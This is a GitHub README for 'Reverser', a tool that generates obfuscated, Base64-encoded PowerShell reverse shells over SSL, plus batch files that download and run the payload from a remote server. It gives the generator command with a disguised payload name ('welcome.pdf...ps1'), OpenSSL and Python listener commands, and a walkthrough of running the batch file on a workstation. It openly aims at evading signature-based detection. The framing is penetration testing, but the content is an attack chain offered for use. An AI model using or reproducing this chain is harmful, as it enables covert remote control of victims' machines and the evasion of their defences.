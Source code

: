 # Reverser: Reverse Shell Generator with SSL Encryption

## Overview

**Reverse** is a Python-based tool designed to generate obfuscated PowerShell scripts or batch files for establishing a reverse shell with SSL encryption. This tool can help in penetration testing scenarios where the goal is to bypass security mechanisms and establish a secure connection to a target machine.

## Features

- **Reverse Shell with SSL Encryption:** Generates PowerShell scripts that establish an encrypted reverse shell connection using SSL.
- **Obfuscation:** Each generated PowerShell script uses randomly selected variable names to avoid signature-based detection by security tools.
- **Base64 Encoding:** The PowerShell scripts are encoded in Base64 for additional obfuscation.
- **Batch File Generation:** Create a batch file that downloads and executes the encoded PowerShell script directly from a remote server.
- **Customizable:** Users can specify the IP address, port, and server URL for downloading the PowerShell script.

### Prerequisites

- Python 3.x
- OpenSSL (for certificate generation)

### Installation

Clone the repository:

```bash
git clone https://github.com/ShkudW/Reverser.git
cd Reception
```

## Usage

The tool can generate two types of files, as chosen by the user:
A PS1 file with obfuscation and Base64 encoding containing a Reverse shell payload.
A legitimate BAT file that connects to a remote server to download the encoded PS1 file.

To create the BAT file, I developed a Python script that acts as a listener for the PS1 file download request. The server can operate with an encryption certificate and supports connections over both HTTP and HTTPS. This ensures that the initial connection between the BAT file and the server for downloading the payload is conducted over an encrypted channel.

The encoded PS1 file will be loaded into memory and establish a connection to another listener, which is set up using OpenSSL.

This way, we can ensure that the communication is encrypted end-to-end.



Creating a BAT file with the tool and transferring it to the listener's directory:
```bash
python3 Reverser.py -ip <Your_IP> -port <Your_PORT> -type bat -server https://<Your_Listener_Server_IP_For_Downloadin_PS1/welcome.pdf.ine.co.il.ps1>
```
```
![image](https://github.com/user-attachments/assets/350a0105-c8a3-43f5-8e67-fddb34cf84f8)
```

Opening a listener with the OpenSSL server to receive the Reverse shell connection, 
and opening a listener with our server to handle the initial connection for downloading the PS1 file from the BAT file:
```bash
openssl s_server -accept <Your_PORT> -cert reception.pem -key reception.key -quiet
```
```bash
python3 listener.py -https_port <Your_Listener_Server_PORT>
```
```
![image](https://github.com/user-attachments/assets/b64a4bf1-e801-4a3e-8a0b-eaa1acbd9ff8)
```

Running the BAT file on the workstation, the file connects to our listener server over encrypted traffic:
```
![image](https://github.com/user-attachments/assets/a2b977f8-455c-42a8-9ec9-1e4d66905035)
```

Receiving a response from the listener server and establishing a Reverse shell from the workstation:
```
![image](https://github.com/user-attachments/assets/dee0bf16-68f4-4059-9bdf-3d28e859e4c5)
```

The encrypted network traffic:
```
![image](https://github.com/user-attachments/assets/7fa8673f-0d4c-40e5-9449-ef746b6b203f)
```

And here is an example for those who want to create an encrypted listener server. 
The BAT file will connect to the server to download the PS1 file, and you can observe the connection to the server. 
The Reverse shell operation will then proceed in an encrypted manner:
```
![image](https://github.com/user-attachments/assets/77b78ae6-fc92-4fa9-93fa-ab43a9bc5b27)
```



